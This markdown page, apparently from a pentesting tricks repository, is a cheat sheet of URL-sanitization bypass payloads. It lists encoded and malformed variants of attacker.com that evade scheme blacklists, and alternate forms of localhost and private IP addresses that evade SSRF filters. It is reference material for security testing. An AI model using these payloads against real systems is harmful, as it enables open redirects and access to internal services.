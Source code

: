 # Tricks - Bypass URL Sanitization

### Description
details
</br>&nbsp;

## Sub Techniques
### 1. Schema Blacklist Bypass
```
https:attacker.com
https:/attacker.com
http:/\/\attacker.com
https:/\attacker.com
//attacker.com
/\attacker.com/
\/attacker.com/
\/\/attacker%2ecom/
/\/attacker%2ecom/
/attacker.com
%0D%0A/attacker.com
attacker。com
ⒶⓉⓉⒶⒸⓀⒺⓡ.Ⓒⓞⓜ
////%09/attacker.com/
///%09/attacker.com/
//%09/attacker.com/
////216.58.214.206/
///216.58.214.206/
//216.58.214.206/
////3627734734
///3627734734
//3627734734
//0x7f000001
%2f%2f%2f%2f216.58.214.206
%2f%2f%2f216.58.214.206
%2f%2f216.58.214.206
////attacker%E3%80%82com
```

### 2. Host Whitelist Bypass
- See [Trick - Host Whitelist Bypass](./Trick%20-%20Host%20Whitelist%20Bypass.md)

### 3. Localhost Format Bypass
```
#
http://localhost:80
http://127.0.0.1:80
http://0.0.0.0:80
http://[::]:80/
http://①②⑦.⓪.⓪.⓪

# CDIR bypass
http://127.127.127.127
http://127.0.1.3
http://127.0.0.0

# Dot bypass
127。0。0。1
127%E3%80%820%E3%80%820%E3%80%821

# Decimal bypass
http://2130706433/ = http://127.0.0.1
http://3232235521/ = http://192.168.0.1
http://3232235777/ = http://192.168.1.1

# Octal Bypass
http://0177.0000.0000.0001
http://00000177.00000000.00000000.00000001
http://017700000001

# Hexadecimal bypass
127.0.0.1 = 0x7f 00 00 01
http://0x7f000001/ = http://127.0.0.1
http://0xc0a80014/ = http://192.168.0.20
0x7f.0x00.0x00.0x01
0x0000007f.0x00000000.0x00000000.0x00000001

# Malformed
http://127.1:80
http://0
```

<br>&nbsp;
## References:
[Reference](https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/url-format-bypass)</br>

<br>&nbsp;
## Support
You can Follow [me](https://twitter.com/MeAsHacker_HNA) on twitter or
<br><br><a href="https://www.buymeacoffee.com/NafisiAslH" target="_blank"><img src="https://cdn.buymeacoffee.com/buttons/v2/default-yellow.png" alt="Buy Me A Coffee" style="height: 60px !important;width: 217px !important;" ></a>
